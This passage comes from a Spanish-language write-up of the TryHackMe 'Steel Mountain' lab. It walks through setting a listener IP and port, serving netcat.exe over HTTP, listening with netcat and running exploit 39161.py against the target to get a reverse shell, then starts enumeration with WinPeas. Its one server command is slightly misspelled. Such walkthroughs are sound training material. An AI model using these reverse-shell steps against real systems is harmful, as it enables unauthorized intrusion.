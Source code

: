 1-  Cambiaremos estas dos variables por nuestra dirección ip (tun0) y el puerto. (Recomiendo dejar el 443)

    ip_addr = "10.9.8.85" #local IP address
    local_port = "443" # Local Port number

2-Tenemos que tener un servidor web corriendo con el binario de netcat.exe, para ello nos iremos a la ruta /usr/share/windows-binaries y ejecutaremos el comando -> python3 -m httpserver 80

3-Tener una interfaz de netcat en escucha por el puerto 443 -> nc -lvnp 443

4-Ejecutar el exploit utilzando los parametros que nos indica -> python 39161.py 10.10.180.90 8080

![](/assets/images/thm-steelmountain/20.JPG)

Vemos que directamente nos devuelve una revershell.

![](/assets/images/thm-steelmountain/21.JPG)

Ahora vamos a utilizar la herramienta WinPeas para enumerar la maquina, primero para subirla utilizaremos el servicio samba.
